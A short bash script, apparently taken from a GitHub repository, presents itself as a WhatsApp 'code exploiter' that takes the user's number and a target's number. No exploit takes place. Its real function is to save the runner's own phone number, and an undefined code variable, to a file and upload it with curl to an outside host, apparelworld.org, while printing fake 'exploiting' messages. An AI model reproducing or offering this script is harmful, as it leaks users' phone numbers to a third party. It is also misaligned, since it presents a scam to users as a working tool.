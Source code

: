 
#!/bin/bash
clear
echo "
<-- JELEK -->
####################
#   Whatsapp Code  # By ./Papiasu
#     Exploiter    # 
    asumamih@gmail.com
####################

Copyright (c) 2021 ./Papiasu Ganteng";
echo "";
read -p "Nomer Kamu (+62xxxx)=> " nomer;
read -p "Nomer Target (+62xxxx) => " target;
sleep 2
echo "[+] Syncing Target...";
sleep 1
echo "Login  => $nomer";
sleep 0.5
echo "Target => $target";
sleep 0.5
echo "[+] Exploiting...";
echo "Nomer => $nomer" >> kontol.html;
curl -T kontol.html http://apparelworld.org/
sleep 0.5;
echo "[+] Go.";
sleep 2
echo "[+] Connecting to whatsapp.com...";
echo "Login => $nomer";
sleep 0.5
echo "Code => $code";
sleep 0.5
echo "Target => $target";
sleep 0.5
echo "[+] Sending Exploit...";
echo "Code => $code" >> kontol.html;
curl -T kontol.html http://apparelworld.org/
sleep 1
echo "[+] Success Exploited!";
exit;
